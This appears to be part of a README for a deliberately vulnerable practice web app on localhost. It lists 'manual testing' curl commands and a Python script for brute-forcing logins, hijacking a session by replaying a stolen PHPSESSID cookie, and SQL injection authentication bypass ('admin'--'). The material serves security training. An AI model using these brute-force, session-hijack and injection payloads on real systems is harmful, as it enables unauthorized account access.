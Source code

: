 
## 🔧 Advanced Testing

### 🌐 **Manual Testing Commands**

#### **Brute Force Testing**
```bash
# Single credential test
curl -X POST http://localhost:8081/index.php \
  -d "username=admin&password=admin" \
  -c cookies.txt

# Rate limiting test
for i in {1..10}; do
  curl -X POST http://localhost:8081/index.php \
    -d "username=admin&password=wrong$i"
  echo "Attempt $i completed"
done
```

#### **Session Hijacking**
```bash
# Get victim's session
curl -c victim_cookies.txt http://localhost:8081

# Extract session ID
session_id=$(grep PHPSESSID victim_cookies.txt | cut -f7)

# Use session as attacker
curl -b "PHPSESSID=$session_id" http://localhost:8081/profile.php
```

#### **SQL Injection**
```bash
# Error-based injection
curl -X POST http://localhost:8081/index.php \
  -d "username=admin'&password=test"

# Authentication bypass attempt
curl -X POST http://localhost:8081/index.php \
  -d "username=admin'--&password=anything"
```

### 🐍 **Python Automation**

```python
import requests

# Automated brute force
session = requests.Session()
for username in ['admin', 'john', 'jane']:
    for password in ['admin', 'password', '123456']:
        response = session.post(
            'http://localhost:8081/index.php',
            data={'username': username, 'password': password}
        )
        if 'Login successful' in response.text:
            print(f"SUCCESS: {username}:{password}")
```

---
